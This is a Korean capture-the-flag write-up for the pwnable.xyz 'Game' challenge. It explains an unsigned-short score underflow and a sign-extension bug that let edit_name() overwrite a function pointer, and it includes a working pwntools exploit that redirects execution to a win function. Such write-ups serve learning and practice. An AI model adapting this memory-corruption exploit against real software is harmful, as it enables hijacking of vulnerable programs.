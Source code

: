 # [pwnable.xyz] Game

> Tired of math already? Try getting the highest score possible.

## Bug

![image](https://github.com/user-attachments/assets/0bfb271f-f583-4412-9303-2e2e32a7f6ab)

![image](https://github.com/user-attachments/assets/2a126ec8-8cc1-412e-a694-b51edae7a45f)

정답을 맞추지 못하면 `cur->score`가 1 감소한다.

![image](https://github.com/user-attachments/assets/8ddef47b-5735-4f54-8963-02bda9156a27)

만약 `cur->score`가 0이었다면 메모리 상에서 `0xffff`가 된다.

![image](https://github.com/user-attachments/assets/dcaf3441-d857-4d3b-96e6-740eaf7a6428)

`save_game()`에서 `score`를 저장할 때 `unsigned short`인 `cur->score`를 8바이트로 캐스팅하는데,

![image](https://github.com/user-attachments/assets/019f9085-bb91-4b02-bdc6-518252820672)

이때 signed extension이 진행되어,

![image](https://github.com/user-attachments/assets/f2d1f88e-66d4-49ac-a7f3-a21c5e5f3b50)

메모리 상에 `0xffffffffffffffff`로 저장된다.

![image](https://github.com/user-attachments/assets/5f2e6454-168b-4fcb-9eff-dc28d00377bb)

`edit_name()`에서 `strlen(cur)`만큼 `read()`로 입력을 받는데, `score` 필드에 null byte가 없기 때문에 `play` 함수 포인터를 임의의 3바이트 값으로 덮어쓸 수 있다.

## Exploit

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30009)

sla = r.sendlineafter
sa = r.sendafter


def play_game(answer=None):
    sla(b"> ", b"1")
    if answer is not None:
        sla(b"= ", str(answer).encode())


def save_game():
    sla(b"> ", b"2")


def edit_name(name):
    sla(b"> ", b"3")
    r.send(name)


win = 0x4009D6

sa(b"Name: ", b"a" * 16)

play_game(0)
save_game()
edit_name(b"a" * 0x18 + p64(win)[:3])
play_game()  # call win()

r.interactive()
```

![image](https://github.com/user-attachments/assets/fd25506c-c742-4277-b41f-33abe1b15d62)
